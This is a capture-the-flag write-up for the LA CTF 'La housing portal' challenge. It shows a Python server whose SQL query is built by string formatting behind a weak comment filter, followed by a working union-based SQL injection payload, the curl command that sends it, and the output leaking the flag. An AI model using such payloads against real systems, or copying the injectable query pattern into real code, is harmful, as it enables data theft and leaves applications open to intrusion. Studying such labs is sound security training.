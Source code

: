 <h1> La housing portal </h1>

<p> This is a basic python web server that lets you search for a user in a sqlite database. We can see that the inputs are directly integrated into the sql query with a basic filtering process.</p>

<h3> Filter </h3>

```python
for k, v in list(data.items()):
    if v == 'na':
        data.pop(k)
    if (len(k) > 10 or len(v) > 50) and k != "name":
        return "Invalid form data", 422
    if "--" in k or "--" in v or "/*" in k or "/*" in v:
        return render_template("hacker.html")
```

<h3> Query </h3>

```python
query = """
select * from users where {} LIMIT 25;
""".format(
    " AND ".join(["{} = '{}'".format(k, v) for k, v in prefs.items()])
)
```

<p> In the database source code (<a href="src/data.sql"><i>data.sql</i></a>), we can see a table containing the test flag </p>

```sql
CREATE TABLE flag (
flag text
);
INSERT INTO flag VALUES("lactf{fake_flag}");
```

<p>So we can exploit the bad filtering to get a union-based sql injection. The only difficulty is that our payload must be less than 51 characters long and contain no comments. </p>
<p> This payload should satisfy these 2 constraints :  <strong><i>'UNION SELECT 1,flag,3,4,5,6 FROM flag WHERE ''='</i></strong></p>

```bash
$ curl -X POST -d "name=&guests=na&neatness=na&sleep=na&awake='UNION SELECT 1,flag,3,4,5,6 FROM flag WHERE ''='" https://la-housing.chall.lac.tf/submit

```
```html
<h2>Result for :</h2>
<table id="data" class="table table-striped">
  <thead>
    <tr>
      <th>Name</th>
      <th>Guests</th>
      <th>Neatness</th>
      <th>Sleep time</th>
      <th>Awake time</th>
    </tr>
  </thead>
  <tbody>

    <tr>
      <td>lactf{us3_s4n1t1z3d_1npu7!!!}</td>
      <td>3</td>
      <td>4</td>
      <td>5</td>
      <td>6</td>
    </tr>

  </tbody>
</table>
<a href="/">Back</a>

<style>
  * {
    border: 1px solid black; border-collapse: collapse;
  }
</style>

```
